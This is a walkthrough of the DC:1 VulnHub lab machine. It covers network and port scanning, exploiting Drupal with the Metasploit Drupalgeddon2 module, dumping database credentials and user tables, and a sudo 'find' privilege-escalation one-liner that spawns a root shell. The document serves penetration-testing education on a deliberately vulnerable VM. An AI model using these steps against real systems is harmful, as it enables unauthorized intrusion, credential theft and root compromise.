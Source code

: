 <h1>DC:1 VulnHub Walkthrough</h1>

<p>
This is a walkthrough of the DC:1 virtual machine from VulnHub. It’s a beginner-friendly boot-to-root machine designed to test your penetration testing skills, especially in web exploitation. The target uses a vulnerable version of Drupal CMS, which is the main attack vector.
</p>

<h2>🔍 Initial Reconnaissance</h2>

<h3>Network Discovery</h3>
<p>We start by identifying the IP address of the target machine using <code>netdiscover</code>.</p>
<pre>
netdiscover -r 192.168.0.0/24
</pre>
<img src="netdiscover.png" alt="netdiscover">

<h3>Port Scanning with Nmap</h3>
<p>Next, we scan the target using <code>nmap</code> to find open ports and services.</p>
<pre>
nmap -sS -sV -T4 192.168.0.102
</pre>
<img src="nmap.png" alt="nmap scan">

<h2>🌐 Web Application Enumeration</h2>

<h3>Drupal Site Detected</h3>
<p>Browsing to the IP address reveals a Drupal website. This suggests a possible exploit path.</p>
<img src="drupal-site.png" alt="Drupal homepage">

<h3>Recovering Password</h3>
<p>Drupal has a password reset feature which may expose usernames or other useful information.</p>
<img src="recover-password.png" alt="Drupal password reset">

<h2>🛠 Exploitation</h2>

<h3>Using Searchsploit to Find Exploits</h3>
<p>We search for known vulnerabilities in Drupal using Searchsploit. A remote code execution (RCE) vulnerability is found.</p>
<pre>
searchsploit drupal 7
</pre>
<img src="searchsploit.png" alt="searchsploit for Drupal 7">

<h3>Launching Exploit via Metasploit</h3>
<p>We use Metasploit's module for Drupalgeddon2 to exploit the vulnerability and gain a reverse shell.</p>
<img src="metasploit.png" alt="Metasploit setup">

<h3>Setting the RHOST Parameter</h3>
<pre>
set RHOST 192.168.0.102
run
</pre>
<img src="set-RHOST.png" alt="Set RHOST">

<h3>Getting a Meterpreter Session</h3>
<p>Successful exploitation results in a Meterpreter session.</p>
<img src="meterpreter.png" alt="Meterpreter session">

<h3>Post Exploitation - User Info</h3>
<p>Check the user context with <code>getuid</code>.</p>
<img src="getuid.png" alt="getuid command">

<h2>🧾 Flag Collection</h2>

<h3>Flag 1</h3>
<p>We list files in the home directory and retrieve the first flag.</p>
<pre>
ls
cat flag1.txt
</pre>
<img src="ls-cat-flag1.png" alt="flag1 retrieval">

<h3>Finding Flag 4</h3>
<p>Using the <code>find</code> command to locate additional flags.</p>
<pre>
find / -name flag4.txt 2>/dev/null
</pre>
<img src="find-flag4.png" alt="find flag4">

<h3>Viewing Flag 4</h3>
<pre>
cat /var/www/html/sites/default/files/flag4.txt
</pre>
<img src="cat-flag4.png" alt="cat flag4">

<h2>🧩 Drupal Database Analysis</h2>

<h3>Drupal Configuration</h3>
<p>We search for Drupal database credentials in settings.php or other configuration files.</p>
<img src="find-drupal-db.png" alt="Drupal database credentials">

<h3>Accessing MySQL</h3>
<p>We log into MySQL using the credentials found.</p>
<pre>
mysql -u drupal -p
</pre>
<img src="mysql.png" alt="MySQL login">

<h3>Enumerating Users Table</h3>
<p>We look at the <code>users</code> table to see account information.</p>
<pre>
SELECT * FROM users;
</pre>
<img src="users-table.png" alt="Drupal users table">

<h3>Inspecting Node Table</h3>
<p>View the content nodes stored in the Drupal site.</p>
<pre>
SELECT * FROM node;
</pre>
<img src="node-table.png" alt="Drupal node table">

<h2>🔓 Privilege Escalation</h2>

<h3>Find Has Root Permissions</h3>
<p>Running <code>sudo -l</code> reveals that the <code>find</code> command can be executed as root.</p>
<pre>
sudo -l
</pre>
<img src="find-root-perms.png" alt="find command as root">

<h3>Spawning a Root Shell</h3>
<p>We use a known privilege escalation trick with <code>find</code> to get root access.</p>
<pre>
sudo find . -exec /bin/sh \; -quit
</pre>
<img src="find-root-shell.png" alt="find root shell">

<h3>Final Flag</h3>
<p>After getting root access, we find and read the final flag.</p>
<pre>
cat /root/flag.txt
</pre>
<img src="cat-final-flag.png" alt="final flag">
